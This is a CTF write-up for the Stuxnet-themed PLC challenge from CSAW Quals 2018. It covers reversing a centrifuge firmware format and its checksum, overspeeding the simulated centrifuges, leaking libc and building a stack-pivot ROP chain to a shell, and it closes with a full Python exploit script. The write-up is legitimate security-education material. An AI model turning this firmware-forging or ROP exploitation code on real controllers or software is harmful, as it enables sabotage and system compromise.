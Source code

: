 ```yaml
---
layout: post
title: CSAW Quals 2018 | PLC Writeup
author: adamt
---
```


What a challenge this was.
Our team collectively spent over 40 hours solving it, however unfortunately we couldn't solve it until after the CTF had ended ;(
enjoy the flag `flag{1s_thi5_th3_n3w_stuxn3t_0r_jus7_4_w4r_g4m3}`

The challenge was a twist on the well known stuxnet virus. It contained 6 sections that built on each other and was a generally fun and interesting challenge.

## Step 1
### Execute the default firmware
By looking at the provide source code we can see that by entering `E` the program will execute the currently loaded firmware
        
## Step 2
### Create our own custom checksummed firmware
This was one of the harder/longer parts of the challenge. To solve this you had to reverse engineer both the custom `shellcode` used by the centrifuge system, and understand what each command does, as well as reverse engineer the checksum algorithm to digitally sign our own payloads.

Through spending hours stairing at the debugger and following the code flows of different inputs we managed to discover the following commands the firmware would accept
<br />

* Reset RPM - 0x30
* Clear Material - 0x31
* Write one char to new material - 0x32 `letter`
* RPM Override off = 0x33 0x30
* RPM Override on = 0x33 0x31
* Decrement RPM = 0x36
* Increment RPM = 0x37
* DEBUG ON = 0x38 0x31
* DEBUG OFF = 0x38 0x30
* EXIT = 0x39

And for custom checksum, we ported the assembler code directly into python instead of trying to understand and recreate it from scratch.

Also a firmware must be 0x400 characters long and in the format of
'FW' + checksum + version + commands
Where the version is 2 numbers (eg 12)

## Step 3
### Exceed Normal Centrifuge Speeds
With the knowledge gained from above, to spin the centrifuges to destruction, we enabled the RPM override, and then calling Increment RPM until the RPM was over a certain threshold. This was pretty trivial with our knowledge gained from the previous step.

## Step 4
### Specify some "extra" dangerous materials
This part of the challenge stumped me for over an hour, I didn't know what it meant by `"extra" dangerous materials`.
Using the knowledge from above we could rename the materials used in the centrifuge by converting a string "HELLO" > "2H2E2L2L2O". Simplying putting the digit 2 between each char.
We tried renaming the material to all sorts of things (yes i did google `most dangerous nuclear material` and other interesting items and yes I'm definetely on a watchlist somewhere)
List of things we tried

* Uranium
* extra
* "extra"
* "extra" dangerous

Eventually someone in our team asked if we had tried specifying an extra long string....
nuff said, specify a string with like 100 character length and we get the points (no points just a tick yay)


## Step 5
### JK lol get flag and cat shell
This is the part where it all stopped. <br />
We had to put everything we had just learnt about this program, and try to somehow get shell.<br />

I forgot to mention a few things..

* PIE/ASLR/NX Are enabled
* Execve in LIBC is corrupted so we can't just do a simple ret2libc
* So we must somehow create a ROP chain that calls the execve syscall

We found that we were able to control RIP through a lethal `call edx` gadget. However this would only give us a single gadget in which we had to get shell.<br />
The trick is to pivot the shell through a nice `add rsp` gadget into a different buffer we control. <br /> <br />

The two buffers we control are 
* The original terminal which has a 32 character size
* The name buffer we control with our command inputs

We can also get a leak because right after our name buffer, is a pointer to an address in libc. So if we fill our buffer with printable characters, we can print out the status/name of our centrifuge, and get an address leak. <br />

With a libc leak the rop chain is trivial

* pop rax
* 0x3b
* pop rdi
* 0
* pop rdx
* 0
* syscall
* shell xx

So if we place the rop chain in our main buffer after "E". The program only looks at the E and called execute, which will then execute our pivot gadget and pivot to our rop chain after the letter "E". perfect.

lovely

> 14 hours of fun

My final python script

```python
from interact import *
import struct
import time


# globals
WRITE = "2"
RPM_ADD = "7"
EXIT = "9"
RPM_OVERRIDE = "31"
DEBUG = "81"

p = Process()
time.sleep(5) #bugs?
# helper functions
def unpack(data, fmt="<Q"):
    return struct.unpack(fmt, data.ljust(8, "\x00"))[0]


def pack(data, fmt="<Q"):
    return struct.pack(fmt, data)


def toWriteCommand(string):
   return WRITE + WRITE.join(list(string))

def generate_checksum(string):
    count = 2
    scount = 0
    rbp10 = 0
    while count <= 0x1ff:
        eax = rbp10
        eax <<= 0xc
        edx = eax

        eax = rbp10
        eax >>= 0x4
        eax |= edx

        rbp10 = eax + (count & 0xffff)

        rbp10 &= 0xFFFF
        eax = ord(string[scount]) + 16*16*ord(string[scount+1])
        rbp10 ^= eax
        count += 1
        scount += 2

    return chr(rbp10 & 0xff) + chr(rbp10 >> 8)

def gen_fw(rpm, overflow):
    commands =  "12" # version
    commands += DEBUG
    commands += RPM_OVERRIDE # so no issues
    commands += toWriteCommand(overflow) # material cmd
    commands += (rpm * RPM_ADD) #overflow rpm
    commands += EXIT
    commands = commands.ljust(0x400 - 4, '\x00')
    # Checksum the above commands
    checksum = generate_checksum(commands)

    # return completed firmware
    return "FW" + checksum + commands

p.sendline("U") #upload firewarm
fw = gen_fw(63, "A" * 68 + "XXXXXXXX")
p.send(fw)
p.sendline("E") # execute firwware
p.sendline("S") # Show status for libc leak


print p.readuntil("XXXXXXXX") # Read until end of our payload
leak = unpack(p.readuntil("\n").strip())
libc_base = leak - 0x36ec0 #leak address and calc offset to base of libc
print "Libc leak ", hex(libc_base)


pivot = pack(libc_base + 0xc96a6) # add rsp, 0x38

rop = "A" * 15
rop += pack(libc_base + 0x21102) #pop rdi
rop += pack(libc_base + 0x18cd57) #binsh

rop += pack(libc_base + 0x33544) #pop rax
rop += pack(0x3b) #execve syscall

rop += pack(libc_base + 0x202e8) #pop rsi
rop += pack(0)

rop += pack(libc_base + 0x1b92) #pop rdx
rop += pack(0)

rop += pack(libc_base + 0xbc375) #syscall


p.sendline("U") #upload firmware
fw = gen_fw(80, ("X" * 68) + pivot)
p.send(fw)
p.sendline("E" + rop)

p.interactive()
```


